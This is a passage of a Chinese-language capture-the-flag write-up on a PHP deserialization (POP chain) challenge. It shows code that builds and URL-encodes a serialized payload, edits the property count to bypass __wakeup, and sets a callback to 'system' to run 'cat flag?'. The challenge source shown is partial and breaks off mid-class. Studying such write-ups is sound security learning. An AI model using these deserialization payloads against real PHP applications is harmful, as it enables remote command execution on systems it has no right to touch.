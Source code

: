 ```php
$a->a->a = new Fun();

$pop2 = serialize($a);
echo $pop2.PHP_EOL;
$pop2[8] = '3';
echo $pop2.PHP_EOL;
echo urlencode($pop2);
```

开始想有个`throw new Exception("no pop")`，我以为需要利用`gc回收机制`，提前进入`destruct`,都准备用数组改参数绕过。

然后就是

```php
if(preg_match("/Test/",get_class($this->a))){
            return "No test in Prod\n";
        }
```

想到了国赛初赛的那个绕过，需要用原生类或者其他内置类，结果也不用

```php
$b = $this->b;
        $checker = new ReflectionClass(get_class($b));
        if(basename($checker->getFileName()) != 'SomeClass.php'){
            if(isset($b->a)&&isset($b->b)){
                ($b->a)($b->b."");
            }
        }
```

这个位置就是利用手段了

```php
 public function __call($f,$p){//当调用不可访问的方法⑩
        call_user_func($this->func,$f,$p);
    }
```

因为要调用`Test`的`getFlag`，但是这个是个无参的函数，我们`call_user_func`传了两个参数进去

所以我们自己构造`this->func='system'`,然后传入`cat flag?`进去，就直接获取flag了。



其他的payload：就是利用`gc回收机制提前进入destruct`，从而绕过``throw new Exception`,也要该属性的个数绕过wakeup

```php
<?php
error_reporting(E_ALL);
ini_set('display_errors', true);
highlight_file(__FILE__);
class Fun{
    private $func = 'system';
    public function __call($f,$p){
        call_user_func($this->func,$f,$p);
    }
    public function __wakeup(){
        $this->func = '';
        die("Don't serialize me");
    }
}

class Test{
    public function getFlag(){
        system("cat /flag?");
    }
    public function __call($f,$p){
        phpinfo();
    }
```